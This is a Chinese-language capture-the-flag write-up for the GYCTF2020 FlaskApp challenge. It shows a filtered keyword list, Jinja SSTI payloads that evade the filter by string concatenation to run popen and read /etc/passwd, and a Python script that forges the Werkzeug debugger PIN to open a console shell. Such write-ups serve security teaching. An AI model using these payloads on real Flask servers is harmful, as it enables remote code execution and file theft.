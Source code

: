 # \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码

![](../../.gitbook/assets/pi8ZT4Kba6xALdO.png)

这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入

![](../../.gitbook/assets/qCSQYk76jUBGe1Z.png)

这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标

![](../../.gitbook/assets/sXHONA7JYVdDtRi.png)

输入 PIN 值

![](<../../.gitbook/assets/image (2) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
